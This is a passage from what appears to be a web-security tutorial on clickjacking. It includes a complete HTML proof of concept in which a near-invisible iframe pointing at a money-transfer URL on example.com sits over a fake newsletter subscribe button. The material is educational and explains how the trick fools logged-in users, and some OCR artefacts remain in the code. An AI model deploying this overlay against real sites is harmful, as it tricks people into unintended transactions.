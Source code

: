 Take a look at the full HTML page example:
```html
<html>
 <style>
 #victim-site {
 width:500px;
Clickjacking   147
 height:500px;
 opacity:0.00001; /*We then make the iframe invisible by setting its opacity to a very low value*/
 z-index:1; /*higher z-index value will be on top*/
 }
 #decoy {
 position:absolute; /*set decoy element to absolute to make the decoy site overlap with the iframe containing the victim site, Without the absolute position directive, HTML would display these elements on separate parts of the screen*/
 width:500px;
 height:500px;
 z-index:-1;
 }
 </style>
 <div id="decoy">
 <h3>Welcome to my site!</h3>
 <h3>This is a cybersecurity newsletter that focuses on bug
bounty news and write-ups! 
 Please subscribe to my newsletter below to receive new
cybersecurity articles in your email inbox!</h3>
 <form action="/subscribe" method="post">
 <label for="email">Email:</label>
 <br>
 <input type="text" id="email" value="Please enter your email!">
 <br><br> /*carefully position the iframe so the Transfer Balance button sits directly on top of this Subscribe button, using new lines created by HTML’s line break tag*/
 <input type="submit" value="Submit">
 </form>
 </div>
 <iframe id="victim-site"
 src="https://www.example.com/transfer_money? 
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```

so if we set the opacity back to 1, You can see that the Transfer Balance button is located directly on top of the Subscribe to Newsletter button![[Gitbook/Media/Web AppSec Images/Pasted image 20240204170516.png]]

Once we reset the opacity of the `iframe` to opacity:0.00001 to make the sensitive form invisible, the site looks like a normal newsletter page![[Gitbook/Media/Web AppSec Images/Pasted image 20240204170627.png]]
If the user is logged into the banking site, they’ll be logged into the `iframe` too, so the banking site’s server will recognize the requests sent by the `iframe` as legit. When the user clicks the seemingly harmless button, they’re executing a balance transfer on `example.com`!
==This is a simplified example. In reality, payment applications will not be implemented this way==, because it would violate data security standards
